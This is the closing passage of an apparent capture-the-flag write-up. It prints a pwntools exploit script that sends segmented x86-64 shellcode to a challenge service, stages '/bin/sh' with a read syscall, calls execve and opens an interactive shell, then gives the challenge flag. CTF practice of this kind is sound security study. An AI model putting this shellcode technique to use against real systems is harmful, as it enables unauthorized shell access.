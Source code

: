 ```python

shellcode = [
    asm("nop; xor rdx,rdx"),
    asm("add rdx,40"),
    asm("nop; mov rsi, rsp "),
    asm("nop; xor rdi, rdi "),
    asm("xor eax,eax; syscall "),
    
    asm("nop; xor rdx,rdx"),
    asm("nop; mov rdi,rsi"),
    asm("nop; xor rsi,rsi"),
    asm("nop; xor rcx,rcx"),
    asm("add rcx, 59"),
    asm("mov eax,ecx; syscall"),
    b"\xcc\xcc\xcc\xcc"
]
# send primitives 
for part in shellcode:
    primitive(r, u("<I",part))

input("[enter] fire exploit ")

r.sendline(b"run")

r.recvline()
print(r.recvline())

print("[+] sending \"/bin/sh\" for read() to store on stack..")
r.sendline(b"/bin/sh\x00")


print("[!] enjoy your shell ;) ")
r.interactive()
```

## Victory

Submit the flag and claim the points:

**ALLES!{people have probably done this before but my google foo is weak. segmented shellcode maybe?}**
